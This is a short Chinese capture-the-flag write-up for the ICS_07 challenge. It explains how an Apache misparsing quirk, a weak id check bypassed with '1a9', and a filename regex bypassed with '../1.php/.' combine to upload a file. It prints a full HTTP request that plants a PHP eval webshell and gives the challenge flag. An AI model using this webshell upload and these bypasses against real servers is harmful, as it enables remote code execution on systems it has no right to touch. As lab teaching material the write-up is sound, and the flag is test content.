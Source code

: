 # ICS_07

> 弱语言特性,正则绕过,文件上传解析漏洞

## Apache2 配置不当解析漏洞

> Apache配置不当时,解析⽂件名的⽅式是从后向前识别扩展名,直到遇⻅Apache可识别的扩展名为⽌. 如:/shell.php.ddd.ccc.bbbb,会被当做/shell.php来解析

## 思路分析

> 打开网站,点击项目管理,点击view-source,看到了源代码.从代码中分析得知,需要先获取管理权限,获取管理权限需要麻烦的条件是传入的id不能为空、id的浮点值不能是1,id的最后一位是9.可以使用1a9来进行绕过,代码中有做sql注入防御.继续分析代码,剩下就是上传webshell文件了.文件名会和"backup/"进行拼接,后面会有chdir('uploaded')重新定义上传目录,所以需要绕过和"backup/"拼接限制,用..可以绕过,正则对文件名进行了过滤,只会检查最后一个.后面的后缀,可以用1.php/.来进行绕过,目标又存在apache2配置不当文件解析漏洞,正好利用文件解析漏洞进行绕过.

## payload

```
POST /index.php?page=index.php&id=1a9 HTTP/1.1
Host: 61.147.171.105:62221
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:62221/index.php?page=12&id=1&submit=%E6%8F%90%E4%BA%A4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; PHPSESSID=gaa2h59g20n468lspdhk370bh6
Connection: close
Content-Length: 77

con=<?php @eval($_POST[cmd]);?>&file=../1.php/.
```

## flag

> cyberpeace{d2f720b48b37fca33797773be4a3c755}